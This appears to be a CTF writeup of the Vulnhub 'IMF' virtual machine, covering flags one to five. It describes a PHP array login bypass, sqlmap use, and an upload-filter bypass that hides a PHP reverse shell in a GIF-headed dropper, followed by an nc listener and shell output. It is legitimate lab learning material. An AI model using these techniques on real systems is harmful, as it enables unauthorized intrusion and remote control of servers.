 ```yaml
---
layout: post
title: IMF
---
```

So let's get started with my first CTF virtual machine writeup. I downloaded the virtual machine file from [Vulnhub](https://www.vulnhub.com/entry/imf-1,162/) The description doesn't give much away:
>Welcome to "IMF", my first Boot2Root virtual machine. IMF is a intelligence agency that you must hack to get all flags and ultimately root. The flags start off easy and get harder as you progress. Each flag contains a hint to the next flag. I hope you enjoy this VM and learn something. 
First flag in comments of contact.php
flag1{YWxsdGhlZmlsZXM=}
Flag1 decodes to allthefiles, which points to base64 encoded file names. The trick is to merge the names.
Decoded names are the second flag
flag2{aW1mYWRtaW5pc3RyYXRvcg==}
Flag 2 decodes to imfadministrator, which points to /imfadministrator
Comment under login form claims that he couldn't get the sql working so he hardcoded the password. At first i tried some sql injection fuzzing but it obviously didn't work.
Then it struck me: the error on the page said 'Invalid username.' so it probably will tell me if guessed correctly the user without password.
Tried admin and some combinations of roger, author of the comment but no luck. Then I remembered the /contact.php page. There is email rmichaels@imf.local for Roger so I figured it's his login.
Now the page says the password is wrong, so I'm on the good track. Now to break super-safe hardcoded password all you need to do is to make pass argument as an array like this:
user=rmichaels&pass[]=
flag3{Y29udGludWVUT2Ntcw==}
Decoded flag 3 says 'continueTOcms' which frankly is pretty obvious given it's the only link we see
CMS cracked with sqlmap
flag4{dXBsb2Fkcjk0Mi5waHA=}
Flag 4 decodes to uploadr942.php
Navigating to /imfadministrator/uploadr942.php reveals simple file uploader. 
Couple minutes of fiddling with different samples of files I found out the server
allows only graphic files, filtering in addition some 'dangerous' php functions.
After uploading the file we can find the comment with strange string.
It's the file name of a file found in the /imfadministrator/uploads/ folder
after uploading the image.
After more experimenting I found out that it does allow file_put_contents function, 
so I decided to obfuscate actual payload inside a dropper utilizing this function:
cp /usr/share/webshells/php/php-reverse-shell.php reverse-shell.php
Set proper host
cat reverse-shell.php | xxd -p | tr -d [:space:] > payloadhex.txt
Wrap it in php dropper and add GIF98 header to fool filter.
Next navigate to a dropper (remember to check the name of the file in the HTML comment)
after running a dropper we can setup a listener on attackers machine:
nc -lp 1234
and after navigating to /msfadministrator/uploads/backdoor.php we ge a shell!
Linux imf 4.4.0-45-generic #66-Ubuntu SMP Wed Oct 19 14:12:37 UTC 2016 x86_64 x86_64 x86_64 GNU/Linux
 15:53:41 up  2:42,  0 users,  load average: 0.11, 0.12, 0.11
USER     TTY      FROM             LOGIN@   IDLE   JCPU   PCPU WHAT
uid=33(www-data) gid=33(www-data) groups=33(www-data)
/bin/sh: 0: can't access tty; job control turned off
$
Now we can navigate to /var/www/html/imfadministrator/uploads
And besides our uploaded junk we have a flag:
drwxr-xr-x 2 www-data www-data  4096 Jun  7 13:36 .
drwxr-xr-x 4 www-data www-data  4096 Oct 17  2016 ..
-rw-r--r-- 1 www-data www-data    82 Oct 12  2016 .htaccess
-rw-r--r-- 1 www-data www-data  6074 Jun  6 13:01 048cc0ba197b.gif
-rw-r--r-- 1 www-data www-data    27 Jun  2 10:53 15d75ca3b468.gif
-rw-r--r-- 1 www-data www-data 11052 Jun  7 13:36 29ab56559292.gif
-rw-r--r-- 1 www-data www-data  6061 Jun  6 10:57 4688d3be2edf.gif
-rw-r--r-- 1 www-data www-data 45944 Jun  2 10:49 66024f4e10de.jpg
-rw-r--r-- 1 www-data www-data  6089 Jun  6 10:59 825abef8c60f.gif
-rw-r--r-- 1 www-data www-data  5494 Jun  7 13:37 backdoor.php
-rw-r--r-- 1 www-data www-data 58816 Jun  1 13:09 bd580392b826.jpg
-rw-r--r-- 1 www-data www-data 58816 Jun  1 13:00 c4e76ada9220.jpg
-rw-r--r-- 1 www-data www-data    28 Oct 12  2016 flag5_abc123def.txt

flag5{YWdlbnRzZXJ2aWNlcw==}
Flag 5 decodes to agentservices
